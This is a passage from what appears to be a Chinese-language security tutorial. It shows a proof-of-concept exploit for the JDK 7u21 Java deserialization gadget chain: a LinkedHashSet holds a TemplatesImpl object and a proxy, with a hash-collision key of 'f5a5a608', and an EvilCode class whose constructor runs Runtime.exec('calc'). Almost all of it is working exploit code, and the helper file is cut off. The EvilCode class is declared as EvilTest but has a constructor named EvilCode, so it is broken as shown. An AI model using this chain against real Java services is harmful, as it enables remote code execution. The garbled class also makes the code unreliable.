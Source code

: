 
            HashSet hashSet = new LinkedHashSet();
            hashSet.add(templates);
            hashSet.add(proxy);

            // 由于 java 的 Map 赋值是传递引用，因此这里的 value 修改后 proxy 里 map 的值也会改变
            // 从而让反序列化时 hash 冲突调用 equals 方法
            memberValues.put("f5a5a608",templates);
            
            byte[] bytes = SerializeUtil.serialize(hashSet);
            SerializeUtil.unserialize(bytes);
        }
    }
    ```

=== "EvilCode.java"

    ```java
    package cc.jdk7u21;

    import com.sun.org.apache.xalan.internal.xsltc.DOM;
    import com.sun.org.apache.xalan.internal.xsltc.TransletException;
    import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
    import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
    import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

    public class EvilTest extends AbstractTranslet {

        @Override
        public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

        }

        @Override
        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

        }
        public EvilCode() throws Exception{
            Runtime.getRuntime().exec("calc");
        }
    }
    ```

=== "SerializeUtil.java"

    ```java
    package cc.jdk7u21;

    import javassist.ClassPool;
    import javassist.CtClass;

    import java.io.ByteArrayInputStream;
    import java.io.ByteArrayOutputStream;
    import java.io.ObjectInputStream;
    import java.io.ObjectOutputStream;
    import java.lang.reflect.Field;
